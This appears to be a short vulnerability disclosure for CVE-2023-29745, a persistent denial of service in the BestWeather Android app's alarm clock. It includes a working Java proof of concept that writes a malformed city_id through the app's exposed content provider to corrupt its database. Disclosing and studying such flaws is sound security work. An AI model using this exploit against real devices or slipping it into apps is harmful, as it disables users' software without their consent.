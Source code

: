 ## Denial of Service exists in Alarm Clock for BestWeather（CVE-2023-29745）

Vendor：最美天气（上海）科技有限公司(http://www.zmtqsh.com/)

Affected product：BestWeather(com.icoolme.android.weather)

Version：7.3.1

Download link：https://play.google.com/store/apps/details?id=com.icoolme.android.weather

Description of the vulnerability for use in the CVE：An issue found in BestWeather v.7.3.1 for Android allows unauthorized apps to cause a persistent denial of service attack by manipulating the database.



poc：

```java
ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
Uri uri = Uri.parse("content://com.icoolme.android.weather.provider/MYCITY");
ContentValues contentValues = new ContentValues();
contentValues.put("city_id",010111);
contentResolver.update(uri,contentValues,null,null);
```



